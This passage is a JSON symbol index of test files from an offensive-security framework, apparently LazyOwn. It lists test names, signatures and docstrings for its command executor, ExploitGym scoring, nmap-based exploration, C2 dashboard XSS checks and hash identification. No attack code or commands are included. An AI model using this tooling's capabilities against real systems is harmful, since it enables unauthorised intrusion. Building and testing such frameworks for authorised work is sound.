"TestRecommendWithEvidence", "signature": "class TestRecommendWithEvidence"}, {"kind": "function", "line": 162, "name": "tmp_sessions_with_csv", "signature": "def tmp_sessions_with_csv()"}, {"kind": "function", "line": 170, "name": "_engine_with_stub", "signature": "def _engine_with_stub(sessions, recs, evidence)"}, {"kind": "class", "line": 178, "name": "TestTipsEngineEvidenceWiring", "signature": "class TestTipsEngineEvidenceWiring"}, {"kind": "method", "line": 53, "name": "__init__", "signature": "def __init__(self, recs)"}, {"kind": "method", "line": 57, "name": "recommend", "signature": "def recommend(self, ctx)"}, {"kind": "method", "line": 63, "name": "test_zero_score_is_zero_confidence", "signature": "def test_zero_score_is_zero_confidence(self)"}, {"kind": "method", "line": 66, "name": "test_negative_score_floored_to_zero", "signature": "def test_negative_score_floored_to_zero(self)"}, {"kind": "method", "line": 69, "name": "test_half_score_constant_yields_fifty", "signature": "def test_half_score_constant_yields_fifty(self)"}, {"kind": "method", "line": 72, "name": "test_monotonic_non_decreasing", "signature": "def test_monotonic_non_decreasing(self)"}, {"kind": "method", "line": 76, "name": "test_never_reaches_or_exceeds_hundred", "signature": "def test_never_reaches_or_exceeds_hundred(self)"}, {"kind": "method", "line": 80, "name": "test_bounded_in_unit_range_scaled", "signature": "def test_bounded_in_unit_range_scaled(self)"}, {"kind": "method", "line": 87, "name": "test_maps_core_fields", "signature": "def test_maps_core_fields(self)"}, {"kind": "method", "line": 100, "name": "test_strips_source_tag_from_reason", "signature": "def test_strips_source_tag_from_reason(self)"}, {"kind": "method", "line": 104, "name": "test_prefers_command_preview_over_action", "signature": "def test_prefers_command_preview_over_action(self)"}, {"kind": "method", "line": 111, "name": "test_skips_recommendation_without_verb", "signature": "def test_skips_recommendation_without_verb(self)"}, {"kind": "method", "line": 115, "name": "test_skips_recommendation_without_reason", "signature": "def test_skips_recommendation_without_reason(self)"}, {"kind": "method", "line": 119, "name": "test_respects_limit", "signature": "def test_respects_limit(self)"}, {"kind": "method", "line": 125, "name": "test_truncates_long_reason", "signature": "def test_truncates_long_reason(self)"}, {"kind": "method", "line": 132, "name": "test_prints_verb_confidence_and_reason", "signature": "def test_prints_verb_confidence_and_reason(self, capsys)"}, {"kind": "method", "line": 139, "name": "test_empty_list_prints_nothing", "signature": "def test_empty_list_prints_nothing(self, capsys)"}, {"kind": "method", "line": 145, "name": "test_returns_engine_output", "signature": "def test_returns_engine_output(self)"}, {"kind": "method", "line": 150, "name": "test_phase_override_reaches_engine_context", "signature": "def test_phase_override_reaches_engine_context(self)"}, {"kind": "method", "line": 155, "name": "test_target_falls_back_to_rhost", "signature": "def test_target_falls_back_to_rhost(self)"}, {"kind": "method", "line": 179, "name": "test_disabled_flag_returns_empty", "signature": "def test_disabled_flag_returns_empty(self, tmp_sessions_with_csv)"}, {"kind": "method", "line": 183, "name": "test_missing_engine_returns_empty", "signature": "def test_missing_engine_returns_empty(self, tmp_sessions_with_csv)"}, {"kind": "method", "line": 190, "name": "test_returns_evidence_hints", "signature": "def test_returns_evidence_hints(self, tmp_sessions_with_csv)"}, {"kind": "method", "line": 196, "name": "test_filters_already_run_commands", "signature": "def test_filters_already_run_commands(self, tmp_sessions_with_csv)"}, {"kind": "method", "line": 208, "name": "test_render_prefers_evidence_over_bare_names", "signature": "def test_render_prefers_evidence_over_bare_names(self, tmp_sessions_with_csv)"}, {"kind": "method", "line": 214, "name": "test_render_falls_back_to_bare_names", "signature": "def test_render_falls_back_to_bare_names(self, tmp_sessions_with_csv)"}]}, {"doc": "Single execution kernel shared by every command runner.  SDD contract: ``CommandExecutor.run_tee`` / ``run_passthrough`` own process spawning for the framework. ``LazyOwnShell.cmd`` delegates its spawn loop to them with CLI policies (terminal env, resilient writer, sessions log path, NOLOGS passthrough) while keeping its telemetry (toastr, logcsv, metrics, event bus) untouched.  Colors: bytes flow untouched from child stdout to the writer and the log file, and the child runs under ``core.hardening.terminal_env`` so piped tools keep emitting ANSI. Shell selection follows the shared ``core.safe_exec.needs_shell`` policy.", "id": "tests/test_executor_kernel.py", "kind": "module", "label": "test_executor_kernel.py", "language": "py", "sha256": "fae0a0cb36668a03", "symbol_count": 15, "symbols": [{"kind": "function", "line": 29, "name": "_executor", "signature": "def _executor()"}, {"kind": "class", "line": 33, "name": "TestColorsPreserved", "signature": "class TestColorsPreserved"}, {"kind": "class", "line": 62, "name": "TestExitCodes", "signature": "class TestExitCodes"}, {"kind": "class", "line": 87, "name": "TestShellPolicy", "signature": "class TestShellPolicy"}, {"kind": "class", "line": 113, "name": "TestSingleSpawnPath", "signature": "class TestSingleSpawnPath"}, {"kind": "method", "line": 34, "name": "test_writer_receives_raw_ansi_bytes", "signature": "def test_writer_receives_raw_ansi_bytes(self)"}, {"kind": "method", "line": 42, "name": "test_log_file_is_byte_identical_to_writer", "signature": "def test_log_file_is_byte_identical_to_writer(self, tmp_path)"}, {"kind": "method", "line": 52, "name": "test_stderr_merged_into_stream", "signature": "def test_stderr_merged_into_stream(self)"}, {"kind": "method", "line": 63, "name": "test_shell_path_exit_code", "signature": "def test_shell_path_exit_code(self)"}, {"kind": "method", "line": 70, "name": "test_argv_path_exit_code", "signature": "def test_argv_path_exit_code(self)"}, {"kind": "method", "line": 76, "name": "test_passthrough_returns_exit_code", "signature": "def test_passthrough_returns_exit_code(self)"}, {"kind": "method", "line": 101, "name": "test_matches_shared_policy", "signature": "def test_matches_shared_policy(self)"}, {"kind": "method", "line": 106, "name": "test_timeout_kills_and_raises", "signature": "def test_timeout_kills_and_raises(self)"}, {"kind": "method", "line": 114, "name": "test_cmd_delegates_spawning_to_kernel", "signature": "def test_cmd_delegates_spawning_to_kernel(self)"}, {"kind": "method", "line": 142, "name": "test_cmd_keeps_telemetry", "signature": "def test_cmd_keeps_telemetry(self)"}]}, {"doc": "Tests for the ExploitGym integration module.  Covers readiness detection, task listing, flag extraction, run/record flow, and ELO scoring reuse without requiring the real harness or Docker.", "id": "tests/test_exploitgym_gym.py", "kind": "module", "label": "test_exploitgym_gym.py", "language": "py", "sha256": "cf790d20780fe95e", "symbol_count": 27, "symbols": [{"kind": "function", "line": 18, "name": "_add_repo_root_to_syspath", "signature": "def _add_repo_root_to_syspath()"}, {"doc": "Create a minimal ExploitGym-like repo for task listing tests.", "kind": "function", "line": 24, "name": "fake_repo", "signature": "def fake_repo(tmp_path)"}, {"kind": "function", "line": 39, "name": "_params", "signature": "def _params(root)"}, {"kind": "function", "line": 51, "name": "test_detect_domain_userspace", "signature": "def test_detect_domain_userspace(fake_repo)"}, {"kind": "function", "line": 60, "name": "test_list_tasks_filters_by_domain", "signature": "def test_list_tasks_filters_by_domain(fake_repo)"}, {"kind": "function", "line": 77, "name": "test_list_tasks_empty_without_repo", "signature": "def test_list_tasks_empty_without_repo(tmp_path)"}, {"kind": "function", "line": 84, "name": "test_check_readiness_ready", "signature": "def test_check_readiness_ready(fake_repo, monkeypatch)"}, {"kind": "function", "line": 99, "name": "test_check_readiness_missing_docker", "signature": "def test_check_readiness_missing_docker(fake_repo, monkeypatch)"}, {"kind": "function", "line": 115, "name": "test_check_readiness_missing_keys", "signature": "def test_check_readiness_missing_keys(fake_repo, monkeypatch)"}, {"kind": "function", "line": 129, "name": "test_extract_flag", "signature": "def test_extract_flag()"}, {"kind": "function", "line": 137, "name": "test_run_task_writes_log_and_records", "signature": "def test_run_task_writes_log_and_records(fake_repo, tmp_path, monkeypatch)"}, {"kind": "function", "line": 166, "name": "test_run_task_reports_missing_repo", "signature": "def test_run_task_reports_missing_repo(tmp_path)"}, {"kind": "function", "line": 174, "name": "test_pull_task_success", "signature": "def test_pull_task_success(fake_repo, monkeypatch)"}, {"kind": "function", "line": 192, "name": "test_score_task_reuses_redteam_pipeline", "signature": "def test_score_task_reuses_redteam_pipeline(fake_repo, monkeypatch)"}, {"kind": "function", "line": 212, "name": "test_setup_harness_reports_missing_repo", "signature": "def test_setup_harness_reports_missing_repo(tmp_path, monkeypatch)"}, {"kind": "function", "line": 221, "name": "test_setup_harness_runs_requested_steps", "signature": "def test_setup_harness_runs_requested_steps(fake_repo, monkeypatch)"}, {"kind": "function", "line": 241, "name": "test_command_set_declares_exploitgym", "signature": "def test_command_set_declares_exploitgym()"}, {"kind": "function", "line": 248, "name": "test_bridge_catalog_has_exploitgym", "signature": "def test_bridge_catalog_has_exploitgym()"}, {"kind": "function", "line": 87, "name": "fake_which", "signature": "def fake_which(name)"}, {"kind": "function", "line": 102, "name": "fake_which", "signature": "def fake_which(name)"}, {"kind": "function", "line": 118, "name": "fake_which", "signature": "def fake_which(name)"}, {"kind": "class", "line": 143, "name": "FakeProc", "signature": "class FakeProc"}, {"kind": "function", "line": 148, "name": "fake_run", "signature": "def fake_run(cmd, cwd, capture_output, text, timeout, env)"}, {"kind": "class", "line": 177, "name": "FakeProc", "signature": "class FakeProc"}, {"kind": "function", "line": 182, "name": "fake_run", "signature": "def fake_run(cmd, cwd, capture_output, text, timeout, env)"}, {"kind": "function", "line": 195, "name": "fake_record", "signature": "def fake_record(challenge_id, success, elo_bonus, techniques)"}, {"kind": "function", "line": 226, "name": "fake_run_streaming", "signature": "def fake_run_streaming(cmd, cwd, timeout)"}]}, {"doc": "tests/test_exploration_and_addons.py  Coverage for the new exploration engine and addon schema fields:  - ``cli/exploration.py`` — nmap XML parsing, addon/tool catalogues, trigger matching, coverage computation, OS resolution. - ``cli/exploration_view.py`` — Rich renderer smoke tests. - ``lazyaddons/*.yaml`` — every shipped addon declares the new ``os`` and ``trigger`` keys with values inside the allowed sets.  The suite touches no network and writes only to ``tmp_path`` fixtures.", "id": "tests/test_exploration_and_addons.py", "kind": "module", "label": "test_exploration_and_addons.py", "language": "py", "sha256": "24fea9d47b394aef", "symbol_count": 36, "symbols": [{"doc": "Create a sessions/ directory with one valid nmap XML.", "kind": "function", "line": 71, "name": "fake_sessions", "signature": "def fake_sessions(tmp_path)"}, {"doc": "Create a lazyaddons/ directory with two addons exercising both fields.", "kind": "function", "line": 84, "name": "fake_addons", "signature": "def fake_addons(tmp_path)"}, {"doc": "Create a tools/ directory with one trigger-matching ``.tool``.", "kind": "function", "line": 127, "name": "fake_tools", "signature": "def fake_tools(tmp_path)"}, {"doc": "Pure helpers used by both the loader and the catalogue.", "kind": "class", "line": 148, "name": "TestNormalisers", "signature": "class TestNormalisers"}, {"doc": "Discovered-service extraction from sessions/scan_*.nmap.xml.", "kind": "class", "line": 182, "name": "TestNmapXmlReader", "signature": "class TestNmapXmlReader"}, {"doc": "Addon and tool YAML/JSON loaders.", "kind": "class", "line": 206, "name": "TestCatalogues", "signature": "class TestCatalogues"}, {"doc": "Service/OS overlap checks.", "kind": "class", "line": 262, "name": "TestTriggerMatcher", "signature": "class TestTriggerMatcher"}, {"doc": "ExplorationEngine wires reader + catalogues + matcher + history.", "kind": "class", "line": 290, "name": "TestEngineEndToEnd", "signature": "class TestEngineEndToEnd"}, {"doc": "Mapping between payload.json fields and the MITRE platform string.", "kind": "class", "line": 316, "name": "TestResolveCurrentOs", "signature": "class TestResolveCurrentOs"}, {"doc": "``render_exploration`` must run without raising for any scope.", "kind": "class", "line": 337, "name": "TestRenderer", "signature": "class TestRenderer"}, {"doc": "Every YAML in lazyaddons/ must declare ``os`` + ``trigger`` validly.", "kind": "class", "line": 362, "name": "TestShippedAddonsRespectSchema", "signature": "class TestShippedAddonsRespectSchema"}, {"doc": "Build an AddonEntry for unit tests.", "kind": "function", "line": 395, "name": "_addon", "signature": "def _addon(name, addon_os, trigger, enabled)"}, {"doc": "Build a DiscoveredService for unit tests.", "kind": "function", "line": 410, "name": "_svc", "signature": "def _svc(service, port)"}, {"kind": "method", "line": 163, "name": "test_normalise_os", "signature": "def test_normalise_os(self, value, expected)"}, {"kind": "method", "line": 178, "name": "test_normalise_trigger", "signature": "def test_normalise_trigger(self, value, expected)"}, {"kind": "method", "line": 185, "name": "test_reads_only_open_ports", "signature": "def test_reads_only_open_ports(self, fake_sessions, monkeypatch)"}, {"kind": "method", "line": 192, "name": "test_target_filter_excludes_other_hosts", "signature": "def test_target_filter_excludes_other_hosts(self, fake_sessions, monkeypatch)"}, {"kind": "method", "line": 197, "name": "test_records_product_version", "signature": "def test_records_product_version(self, fake_sessions, monkeypatch)"}, {"kind": "method", "line": 209, "name": "test_addon_catalog_loads_os_and_trigger", "signature": "def test_addon_catalog_loads_os_and_trigger(self, fake_addons, monkeypatch)"}, {"kind": "method", "line": 219, "name": "test_tool_catalog_loads_os_default", "signature": "def test_tool_catalog_loads_os_default(self, fake_tools, monkeypatch)"}, {"kind": "method", "line": 228, "name": "test_addon_catalog_reuses_cache_when_mtime_unchanged", "signature": "def test_addon_catalog_reuses_cache_when_mtime_unchanged(self, fake_addons, monkeypatch)"}, {"kind": "method", "line": 237, "name": "test_addon_catalog_invalidates_cache_on_change", "signature": "def test_addon_catalog_invalidates_cache_on_change(self, fake_addons, monkeypatch)"}, {"kind": "method", "line": 252, "name": "test_tool_catalog_reuses_cache_when_mtime_unchanged", "signature": "def test_tool_catalog_reuses_cache_when_mtime_unchanged(self, fake_tools, monkeypatch)"}, {"kind": "method", "line": 265, "name": "test_os_compat_any_passes", "signature": "def test_os_compat_any_passes(self)"}, {"kind": "method", "line": 271, "name": "test_os_mismatch_filters_out", "signature": "def test_os_mismatch_filters_out(self)"}, {"kind": "method", "line": 277, "name": "test_wildcard_matches_any_service", "signature": "def test_wildcard_matches_any_service(self)"}, {"kind": "method", "line": 283, "name": "test_disabled_addon_skipped", "signature": "def test_disabled_addon_skipped(self)"}, {"kind": "method", "line": 293, "name": "test_suggestions_and_coverage", "signature": "def test_suggestions_and_coverage(self, fake_sessions, fake_addons, fake_tools, monkeypatch, tmp_path)"}, {"kind": "method", "line": 308, "name": "test_unexplored_excludes_history", "signature": "def test_unexplored_excludes_history(self, fake_sessions, fake_addons, fake_tools, monkeypatch, tmp_path)"}, {"kind": "method", "line": 333, "name": "test_resolves", "signature": "def test_resolves(self, payload, expected)"}, {"kind": "method", "line": 340, "name": "test_renders_empty_scope", "signature": "def test_renders_empty_scope(self, tmp_path, monkeypatch)"}, {"kind": "method", "line": 350, "name": "test_renders_populated_scope", "signature": "def test_renders_populated_scope(self, fake_sessions, fake_addons, fake_tools, monkeypatch, tmp_path)"}, {"kind": "method", "line": 366, "name": "addon_files", "signature": "def addon_files(self)"}, {"kind": "method", "line": 369, "name": "test_at_least_one_addon_exists", "signature": "def test_at_least_one_addon_exists(self, addon_files)"}, {"kind": "method", "line": 372, "name": "test_all_have_os_in_allowed_values", "signature": "def test_all_have_os_in_allowed_values(self, addon_files)"}, {"kind": "method", "line": 381, "name": "test_all_have_trigger_list", "signature": "def test_all_have_trigger_list(self, addon_files)"}]}, {"doc": "Finding confirmation lifecycle + keyless OSINT enrichment.", "id": "tests/test_finding_lifecycle.py", "kind": "module", "label": "test_finding_lifecycle.py", "language": "py", "sha256": "5fe40cc6c4052862", "symbol_count": 10, "symbols": [{"doc": "Minimal finding node as produced by the graph builders.", "kind": "function", "line": 24, "name": "_finding", "signature": "def _finding(fid, sources)"}, {"doc": "Single-source findings stay pending intel, not noise.", "kind": "function", "line": 30, "name": "test_pending_by_default", "signature": "def test_pending_by_default(tmp_path)"}, {"doc": "Two independent sources confirm without operator action.", "kind": "function", "line": 35, "name": "test_multi_source_auto_confirms", "signature": "def test_multi_source_auto_confirms(tmp_path)"}, {"doc": "Operator confirmation persists evidence on the finding.", "kind": "function", "line": 41, "name": "test_explicit_confirm_with_evidence", "signature": "def test_explicit_confirm_with_evidence(tmp_path)"}, {"doc": "Explicit reject wins over the multi-source rule (CAIRN dead-ends).", "kind": "function", "line": 49, "name": "test_reject_beats_auto_confirm", "signature": "def test_reject_beats_auto_confirm(tmp_path)"}, {"doc": "Labeled suppression list rejects matching values campaign-wide.", "kind": "function", "line": 57, "name": "test_dead_end_suppresses_value", "signature": "def test_dead_end_suppresses_value(tmp_path)"}, {"doc": "Builder hook stamps confirmation + display status on findings.", "kind": "function", "line": 65, "name": "test_apply_confirmation_stamps_nodes", "signature": "def test_apply_confirmation_stamps_nodes(tmp_path)"}, {"doc": "CVE mentions gain OSV/KEV/EPSS verdicts without any API key.", "kind": "function", "line": 75, "name": "test_enrich_evidence_appends_keyless_verdicts", "signature": "def test_enrich_evidence_appends_keyless_verdicts(tmp_path, monkeypatch)"}, {"doc": "Broken network degrades to the raw items, never an exception.", "kind": "function", "line": 85, "name": "test_enrich_evidence_never_fails_offline", "signature": "def test_enrich_evidence_never_fails_offline(tmp_path, monkeypatch)"}, {"kind": "function", "line": 87, "name": "_boom", "signature": "def _boom(cve, sessions)"}]}, {"doc": "Tests for cli/fuzzy_picker.py and lint-regression for lazyown.py.  Two concerns are covered here:  1. The fuzzy picker primitives (MatchScorer, PickerConfig, FuzzyPicker, ReadlineBridge) — exercised through small fakes so the suite does not require an interactive terminal. 2. A regression check that confirms the SyntaxWarning fixes in ``lazyown.py`` did not alter the runtime bytes of the affected shell command strings. We assert literal substrings rather than scanning the source so the test is robust against further escape-related cleanups.", "id": "tests/test_fuzzy_picker.py", "kind": "module", "label": "test_fuzzy_picker.py", "language": "py", "sha256": "c813ee94451fae88", "symbol_count": 25, "symbols": [{"doc": "Deterministic view used to drive FuzzyPicker without curses.", "kind": "class", "line": 35, "name": "_FakeView", "signature": "class _FakeView(PickerView)"}, {"kind": "function", "line": 54, "name": "scorer", "signature": "def scorer()"}, {"kind": "function", "line": 59, "name": "sample_items", "signature": "def sample_items()"}, {"kind": "function", "line": 72, "name": "test_empty_query_returns_all_items_in_order", "signature": "def test_empty_query_returns_all_items_in_order(scorer, sample_items)"}, {"kind": "function", "line": 78, "name": "test_exact_match_scores_highest", "signature": "def test_exact_match_scores_highest(scorer, sample_items)"}, {"kind": "function", "line": 84, "name": "test_prefix_match_outranks_substring", "signature": "def test_prefix_match_outranks_substring(scorer)"}, {"kind": "function", "line": 90, "name": "test_subsequence_match_emits_positions", "signature": "def test_subsequence_match_emits_positions(scorer, sample_items)"}, {"kind": "function", "line": 98, "name": "test_similarity_floor_excludes_unrelated_text", "signature": "def test_similarity_floor_excludes_unrelated_text(scorer)"}, {"kind": "function", "line": 104, "name": "test_subsequence_positions_helper_returns_empty_when_no_match", "signature": "def test_subsequence_positions_helper_returns_empty_when_no_match()"}, {"kind": "function", "line": 112, "name": "test_config_from_payload_respects_known_overrides", "signature": "def test_config_from_payload_respects_known_overrides()"}, {"kind": "function", "line": 119, "name": "test_config_from_payload_ignores_unknown_keys", "signature": "def test_config_from_payload_ignores_unknown_keys()"}, {"kind": "function", "line": 124, "name": "test_config_from_payload_returns_defaults_when_no_block", "signature": "def test_config_from_payload_returns_defaults_when_no_block()"}, {"kind": "function", "line": 132, "name": "test_picker_short_circuits_single_item", "signature": "def test_picker_short_circuits_single_item()"}, {"kind": "function", "line": 138, "name": "test_picker_routes_through_view_for_multiple_items", "signature": "def test_picker_routes_through_view_for_multiple_items(sample_items)"}, {"kind": "function", "line": 146, "name": "test_picker_cancel_returns_none", "signature": "def test_picker_cancel_returns_none(sample_items)"}, {"kind": "function", "line": 152, "name": "test_picker_empty_input_returns_none", "signature": "def test_picker_empty_input_returns_none()"}, {"kind": "function", "line": 160, "name": "test_strip_ansi_removes_csi_sequences", "signature": "def test_strip_ansi_removes_csi_sequences()"}, {"kind": "function", "line": 165, "name": "test_strip_ansi_passes_through_plain_text", "signature": "def test_strip_ansi_passes_through_plain_text()"}, {"doc": "Return every string literal value present in ``source`` after parse.\n\nWalking the AST captures the post-escape byte content of every literal,\nwhich is exactly what reaches subprocess / shell calls at runtime. The\nhelper deliberately ignores f-string format expressions because their\ninterpolated values are runtime-dependent; only the static template\nfragments inside ``ast.JoinedStr`` are captured.", "kind": "function", "line": 174, "name": "_collect_string_constants", "signature": "def _collect_string_constants(source)"}, {"doc": "Aggregate string literals from every CLI source the shell may dispatch.\n\nReturns:\n    All string constants found in ``lazyown.py`` plus the migrated\n    ``do_*`` modules under ``cli/commands/`` and the C2 builder\n    module that hosts the cloudflare tunnel templates. Files that\n    cannot be parsed are skipped silently so the test runs on\n    partially valid checkouts.", "kind": "function", "line": 198, "name": "_collect_runtime_strings", "signature": "def _collect_runtime_strings()"}, {"kind": "function", "line": 260, "name": "test_lazyown_runtime_strings_preserve_shell_payload", "signature": "def test_lazyown_runtime_strings_preserve_shell_payload(expected_substring)"}, {"kind": "function", "line": 265, "name": "test_lazyown_source_has_no_invalid_escape_warning", "signature": "def test_lazyown_source_has_no_invalid_escape_warning()"}, {"kind": "function", "line": 280, "name": "test_getprompt_renders_three_lines_and_includes_payload_segments", "signature": "def test_getprompt_renders_three_lines_and_includes_payload_segments()"}, {"kind": "method", "line": 38, "name": "__init__", "signature": "def __init__(self, selection_index)"}, {"kind": "method", "line": 43, "name": "run", "signature": "def run(self, items, initial_query)"}]}, {"doc": "Tests for cli/graph_advisor.py.  The suite is driven by a small synthetic graphify-style JSON fixture so it runs deterministically without the full 1500-node LazyOwn graph. The real graph is exercised via the smoke test ``test_real_graph_summary_when_available`` which becomes a no-op when ``graphify-out/graph_lazyown.json`` is missing.", "id": "tests/test_graph_advisor.py", "kind": "module", "label": "test_graph_advisor.py", "language": "py", "sha256": "78966cc7008d7835", "symbol_count": 25, "symbols": [{"kind": "function", "line": 34, "name": "small_graph_data", "signature": "def small_graph_data()"}, {"kind": "function", "line": 126, "name": "small_graph_path", "signature": "def small_graph_path(tmp_path, small_graph_data)"}, {"kind": "function", "line": 133, "name": "advisor", "signature": "def advisor(small_graph_path)"}, {"kind": "function", "line": 138, "name": "test_loader_resolves_explicit_path", "signature": "def test_loader_resolves_explicit_path(tmp_path, small_graph_data)"}, {"kind": "function", "line": 147, "name": "test_loader_returns_none_when_missing", "signature": "def test_loader_returns_none_when_missing(tmp_path)"}, {"kind": "function", "line": 153, "name": "test_index_builds_adjacency_and_degree", "signature": "def test_index_builds_adjacency_and_degree(small_graph_data)"}, {"kind": "function", "line": 174, "name": "test_scorer_prefers_prefix_match", "signature": "def test_scorer_prefers_prefix_match(small_graph_data)"}, {"kind": "function", "line": 182, "name": "test_scorer_returns_empty_for_unrelated_query", "signature": "def test_scorer_returns_empty_for_unrelated_query(small_graph_data)"}, {"kind": "function", "line": 188, "name": "test_advisor_summary_reports_topology", "signature": "def test_advisor_summary_reports_topology(advisor)"}, {"kind": "function", "line": 199, "name": "test_advisor_summary_flags_empty_graph", "signature": "def test_advisor_summary_flags_empty_graph(tmp_path)"}, {"kind": "function", "line": 212, "name": "test_advisor_summary_flags_stale_graph", "signature": "def test_advisor_summary_flags_stale_graph(tmp_path)"}, {"kind": "function", "line": 231, "name": "test_advisor_search_returns_ranked_nodes", "signature": "def test_advisor_search_returns_ranked_nodes(advisor)"}, {"kind": "function", "line": 239, "name": "test_advisor_neighbors_returns_layered_walk", "signature": "def test_advisor_neighbors_returns_layered_walk(advisor)"}, {"kind": "function", "line": 248, "name": "test_advisor_neighbors_respects_depth", "signature": "def test_advisor_neighbors_respects_depth(advisor)"}, {"kind": "function", "line": 254, "name": "test_advisor_god_nodes_ranks_by_degree", "signature": "def test_advisor_god_nodes_ranks_by_degree(advisor)"}, {"kind": "function", "line": 260, "name": "test_advisor_suggest_next_walks_from_recent", "signature": "def test_advisor_suggest_next_walks_from_recent(advisor)"}, {"kind": "function", "line": 268, "name": "test_advisor_did_you_mean_returns_close_labels", "signature": "def test_advisor_did_you_mean_returns_close_labels(advisor)"}, {"kind": "function", "line": 274, "name": "test_advisor_truncate_respects_token_budget", "signature": "def test_advisor_truncate_respects_token_budget(advisor)"}, {"kind": "function", "line": 280, "name": "test_advisor_handles_missing_graph_gracefully", "signature": "def test_advisor_handles_missing_graph_gracefully(tmp_path)"}, {"kind": "function", "line": 292, "name": "test_advisor_reads_recent_commands_from_csv", "signature": "def test_advisor_reads_recent_commands_from_csv(tmp_path, advisor)"}, {"kind": "function", "line": 309, "name": "test_format_search_table_renders_rows", "signature": "def test_format_search_table_renders_rows(advisor)"}, {"kind": "function", "line": 316, "name": "test_format_neighbors_renders_when_match_found", "signature": "def test_format_neighbors_renders_when_match_found(advisor)"}, {"kind": "function", "line": 322, "name": "test_format_god_nodes_handles_empty", "signature": "def test_format_god_nodes_handles_empty()"}, {"kind": "function", "line": 326, "name": "test_format_suggestions_handles_empty", "signature": "def test_format_suggestions_handles_empty()"}, {"kind": "function", "line": 333, "name": "test_real_graph_summary_when_available", "signature": "def test_real_graph_summary_when_available()"}]}, {"doc": "Tests for cli/graph_overlay.py.  Exercises the data layer using a hand-rolled fake advisor that mirrors the contract of :class:`cli.graph_advisor.GraphAdvisor`.", "id": "tests/test_graph_overlay.py", "kind": "module", "label": "test_graph_overlay.py", "language": "py", "sha256": "6cceb3c6254ff076", "symbol_count": 14, "symbols": [{"kind": "class", "line": 25, "name": "_FakeAdvisor", "signature": "class _FakeAdvisor"}, {"doc": "``None`` from the factory marks the overlay as unavailable.", "kind": "function", "line": 55, "name": "test_is_available_returns_false_when_advisor_missing", "signature": "def test_is_available_returns_false_when_advisor_missing()"}, {"doc": "The default view emits the configured god-nodes.", "kind": "function", "line": 61, "name": "test_god_nodes_view_returns_hubs", "signature": "def test_god_nodes_view_returns_hubs()"}, {"doc": "Typing a focus query auto-switches the view.", "kind": "function", "line": 72, "name": "test_focus_switches_to_neighbors_view", "signature": "def test_focus_switches_to_neighbors_view()"}, {"doc": "A focus that does not match any node returns the configured message.", "kind": "function", "line": 85, "name": "test_focus_unknown_returns_no_match_message", "signature": "def test_focus_unknown_returns_no_match_message()"}, {"doc": "When the advisor reports unavailable the overlay falls back.", "kind": "function", "line": 97, "name": "test_unavailable_advisor_returns_no_graph_message", "signature": "def test_unavailable_advisor_returns_no_graph_message()"}, {"doc": "Toggle alternates between god-nodes and neighbors.", "kind": "function", "line": 108, "name": "test_toggle_view_round_trip", "signature": "def test_toggle_view_round_trip()"}, {"doc": "The runner override bypasses Textual and returns its value.", "kind": "function", "line": 122, "name": "test_launch_overlay_uses_runner", "signature": "def test_launch_overlay_uses_runner()"}, {"doc": "The factory accepts no arguments and returns a state instance.", "kind": "function", "line": 135, "name": "test_build_state_uses_default_factory_signature", "signature": "def test_build_state_uses_default_factory_signature()"}, {"kind": "method", "line": 26, "name": "__init__", "signature": "def __init__(self, available)"}, {"kind": "method", "line": 29, "name": "is_available", "signature": "def is_available(self)"}, {"kind": "method", "line": 32, "name": "god_nodes", "signature": "def god_nodes(self, limit)"}, {"kind": "method", "line": 39, "name": "neighbors", "signature": "def neighbors(self, query, depth, limit)"}, {"kind": "function", "line": 129, "name": "runner", "signature": "def runner(context)"}]}, {"doc": "Regression gate for XSS sinks in the C2 dashboard template.  Every ``innerHTML`` sink fed by LLM or command output must pass through the central ``safeHtml`` helper backed by DOMPurify. Raw interpolation of server-controlled strings is a stored-XSS vector.", "id": "tests/test_gui_xss_sinks.py", "kind": "module", "label": "test_gui_xss_sinks.py", "language": "py", "sha256": "ce02c43abdb96633", "symbol_count": 9, "symbols": [{"doc": "Return the raw dashboard template text.", "kind": "function", "line": 21, "name": "_read_template", "signature": "def _read_template()"}, {"kind": "class", "line": 26, "name": "SafeHtmlHelperTests", "signature": "class SafeHtmlHelperTests(TestCase)"}, {"kind": "class", "line": 37, "name": "SinkSanitizationTests", "signature": "class SinkSanitizationTests(TestCase)"}, {"kind": "method", "line": 27, "name": "test_helper_is_defined_exactly_once", "signature": "def test_helper_is_defined_exactly_once(self)"}, {"kind": "method", "line": 31, "name": "test_helper_prefers_dompurify_with_text_fallback", "signature": "def test_helper_prefers_dompurify_with_text_fallback(self)"}, {"kind": "method", "line": 38, "name": "test_no_raw_response_interpolation", "signature": "def test_no_raw_response_interpolation(self)"}, {"kind": "method", "line": 43, "name": "test_no_raw_html_interpolation", "signature": "def test_no_raw_html_interpolation(self)"}, {"kind": "method", "line": 50, "name": "test_no_raw_error_interpolation", "signature": "def test_no_raw_error_interpolation(self)"}, {"kind": "method", "line": 61, "name": "test_no_raw_output_interpolation", "signature": "def test_no_raw_output_interpolation(self)"}]}, {"doc": "Tests for modules/hash_cracker.py", "id": "tests/test_hash_cracker.py", "kind": "module", "label": "test_hash_cracker.py", "language": "py", "sha256": "51df7bf5b7700d1f", "symbol_count": 22, "symbols": [{"kind": "class", "line": 14, "name": "TestHashIdentification", "signature": "class TestHashIdentification"}, {"kind": "class", "line": 66, "name": "TestFileIdentification", "signature": "class TestFileIdentification"}, {"kind": "class", "line": 91, "name": "TestCrackResult", "signature": "class TestCrackResult"}, {"kind": "class", "line": 114, "name": "TestHashPatterns", "signature": "class TestHashPatterns"}, {"kind": "class", "line": 122, "name": "TestWordlists", "signature": "class TestWordlists"}, {"kind": "class", "line": 129, "name": "TestHashIdentifier", "signature": "class TestHashIdentifier"}, {"kind": "method", "line": 15, "name": "test_identify_ntlm", "signature": "def test_identify_ntlm(self)"}, {"kind": "method", "line": 22, "name": "test_identify_ntlm_from_secretsdump", "signature": "def test_identify_ntlm_from_secretsdump(self)"}, {"kind": "method", "line": 29, "name": "test_identify_sha512crypt", "signature": "def test_identify_sha512crypt(self)"}, {"kind": "method", "line": 36, "name": "test_identify_unknown", "signature": "def test_identify_unknown(self)"}, {"kind": "method", "line": 41, "name": "test_identify_empty", "signature": "def test_identify_empty(self)"}, {"kind": "method", "line": 46, "name": "test_identify_kerberos_tgs", "signature": "def test_identify_kerberos_tgs(self)"}, {"kind": "method", "line": 53, "name": "test_identify_md5", "signature": "def test_identify_md5(self)"}, {"kind": "method", "line": 59, "name": "test_identify_sha1", "signature": "def test_identify_sha1(self)"}, {"kind": "method", "line": 67, "name": "test_identify_file_empty", "signature": "def test_identify_file_empty(self, tmp_path)"}, {"kind": "method", "line": 74, "name": 